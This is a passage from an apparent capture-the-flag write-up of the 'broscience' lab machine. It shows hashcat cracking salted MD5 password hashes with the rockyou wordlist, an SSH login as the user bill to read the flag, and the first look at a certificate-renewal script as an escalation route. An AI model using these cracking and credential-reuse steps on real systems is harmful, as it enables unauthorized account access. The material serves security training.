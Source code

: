 ```bash
Status...........: Exhausted
Hash.Mode........: 20 (md5($salt.$pass))
Hash.Target......: hashes.txt
Time.Started.....: Sun Jan 29 17:53:33 2023 (3 secs)
Time.Estimated...: Sun Jan 29 17:53:36 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5515.0 kH/s (0.14ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 3/5 (60.00%) Digests (total), 3/5 (60.00%) Digests (new)
Progress.........: 14344384/14344384 (100.00%)
Rejected.........: 0/14344384 (0.00%)
Restore.Point....: 14344384/14344384 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[21217365786d652121] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 32%

Started: Sun Jan 29 17:53:11 2023
Stopped: Sun Jan 29 17:53:37 2023

$ hashcat -a0 -m20 hashes.txt /usr/share/seclists/rockyou.txt --username --show
bill:13edad4932da9dbb57d9cd15b66ed104:NaCl:REDACTED
michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:REDACTED
dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaCl:REDACTED
```

I used bill's password to connect to the server and get the user flag.

```bash
$ ssh bill@target
bill@target's password:
Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jan  2 04:45:21 2023 from 10.10.14.40

bill@broscience:~$ cat user.txt
REDACTED
```

## Certificate Renewal

I looked around the server. I found a script in `/opt/renew_cert.sh`. The script was looking for a certificate, and if it was expiring soon, it would read some information about it, generate a new one, and move it in bill's home folder.
